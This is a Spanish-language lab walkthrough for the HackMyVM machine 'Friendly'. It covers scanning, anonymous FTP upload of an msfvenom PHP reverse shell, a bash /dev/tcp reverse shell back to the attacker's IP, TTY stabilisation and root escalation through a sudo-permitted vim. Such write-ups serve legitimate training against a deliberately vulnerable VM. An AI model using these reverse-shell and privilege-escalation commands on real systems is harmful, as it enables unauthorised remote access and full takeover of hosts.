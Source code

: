 Maquinas que vamos a utilizar **Kali Linux y Friendly** [https://hackmyvm.eu/machines/machine.php?vm=Friendly](https://hackmyvm.eu/machines/machine.php?vm=Friendly)

  

Una vez hayamos obtenido acceso remoto al servidor, es necesario proceder con la escalada de privilegios, para poder convertirnos en el usuario root del sistema y así contar con todo tipo de permisos sobre el mismo.

  

```Bash
sudo arp-scan -I eth0 --localnet
```

![[Imagenes/image 55.png|image 55.png]]

  

```Bash
ping -c 1 10.0.3.21
```

![[Imagenes/image 1 44.png|image 1 44.png]]

  

```Bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.0.3.21 
```

![[Imagenes/image 2 43.png|image 2 43.png]]

Vemos que esta habilitado el login como Anonymous en el FTP por el puerto 21.

  

- Accedemos por el FTP
    
    ```Bash
    ftp 10.0.3.21 
    ```
    
    ![[Imagenes/image 3 42.png|image 3 42.png]]
    
    Usuario anonymous contraseña la dejamos en blanco.
    
    Salimos del FTP
    
    `exit`
    

  

- Creamos un archivo malicioso con msfvenom en el escritorio.
    
    ```Bash
    msfvenom -p php/reverse_php LHOST=10.0.3.4 LPORT=443 -f raw > pwned.php
    ```
    
    ![[Imagenes/image 4 40.png|image 4 40.png]]
    

  

- Volvemos a entrar el el FTP como la vez anterior
    
    ```Bash
    ftp 10.0.3.21 
    ```
    
    ![[Imagenes/image 5 39.png|image 5 39.png]]
    
      
    
    - Subimos el archivo **pwned.php.**
        
        `put pwned.php`
        
        ![[Imagenes/image 6 37.png|image 6 37.png]]
        
        `exit`
        
    
      
    
- Nos ponemos a la escucha con netcat por el puerto 443 que era el de muestro archivo malicioso..
    
    ```Bash
    nc -nlvp 443 
    ```
    
    ![[Imagenes/image 7 35.png|image 7 35.png]]
    

  

- Como ya hemos aprendido una conexión creada por msfvemon es muy inestable así que vamos a estabilizarla. Nos vamos a la web [https://www.revshells.com/](https://www.revshells.com/) y copiamos el código generado.
    
    ![[Imagenes/image 8 33.png|image 8 33.png]]
    

  

- En otra terminal nos ponemos a la escucha con netcat por el puerto 444 que es el que hemos puesto en el código que acabamos de generar.
    
    ```Bash
    nc -nlvp 444 
    ```
    
    ![[Imagenes/image 9 30.png|image 9 30.png]]
    
      
    
- Nos vamos al navegador web y ponemos la URL http://10.0.3.21/pwned.php
    
    ![[Imagenes/image 10 26.png|image 10 26.png]]
    
    ![[Imagenes/image 11 20.png|image 11 20.png]]
    

  

- Escribimos lo siguiente
    
    `bash -c "sh -i >& /dev/tcp/10.0.3.4/444 0>&1"`
    
    ![[Imagenes/image 12 20.png|image 12 20.png]]
    
    ![[Imagenes/image 13 19.png|image 13 19.png]]
    

  

Hasta aquí ya lo habíamos visto.

  

---

  

- **Tratamiento de la TTY**
    
    `script /dev/null -c bash`
    
    `CTRL+Z`
    
    ![[Imagenes/image 14 17.png|image 14 17.png]]
    

`stty raw -echo; fg`

`reset xterm`

![[Imagenes/image 15 14.png|image 15 14.png]]

`export TERM=xterm`

`export SHELL=bash`

![[Imagenes/image 16 11.png|image 16 11.png]]

  

---

  

- Vamos a ver **escaladas de privilegios básicas** vamos a utilizar **sodo -l** , este comando a veces funciona y a veces no pero si funciona anos puede dar información útil.
    
    `sudo -l`
    
    ![[Imagenes/image 17 9.png|image 17 9.png]]
    
      
    
    ![[Imagenes/image 18 7.png|image 18 7.png]]
    
    > [!important] Este mensaje indica que el usuario **www-data (en este caso soy yo, podemos comprobarlo haciendo un whoami)** puede **ejecutar el comando vim** en el sistema llamado friendly **sin necesidad de contraseña** (NOPASSWD). Además, **no hay restricciones** sobre qué comandos o privilegios puede usar (ALL : ALL). **En resumen, este usuario tiene acceso sin restricciones a ejecutar vim.**
    
      
    
    Nos puede aparecer vim como otras herramientas. Como es lógico es imposible saber de memoria como escalar en cada herramienta. por eso vamos a utilizar la web [https://gtfobins.github.io/](https://gtfobins.github.io/).
    
      
    
    ![[Imagenes/image 19 5.png|image 19 5.png]]
    
      
    
    En el buscador de la web ponemos la herramienta que nos a parecido y con la cual queremos escalar privilegios.
    
    ![[Imagenes/image 20 5.png|image 20 5.png]]
    
    ![[Imagenes/image 21 4.png|image 21 4.png]]
    

- Nos debemos preguntar ¿Cómo hemos enumerado que podemos utilizar vim?
    
    ![[Imagenes/image 22 4.png|image 22 4.png]]
    
    Lo hemos hecho con el comando **SUDO**
    

  

- Nos movemos hasta encontrar **Sudo** en la web **dentro de Vim**
    
    ![[Imagenes/image 23 4.png|image 23 4.png]]
    
    Vemos que tenemos varios opciones. Probamos la primera.
    
    `sudo /usr/bin/vim -c ':!/bin/sh'`
    
    ![[Imagenes/image 24 3.png|image 24 3.png]]
    
    Si funciona nos convertimos en Root
    
    ![[Imagenes/image 25 3.png|image 25 3.png]]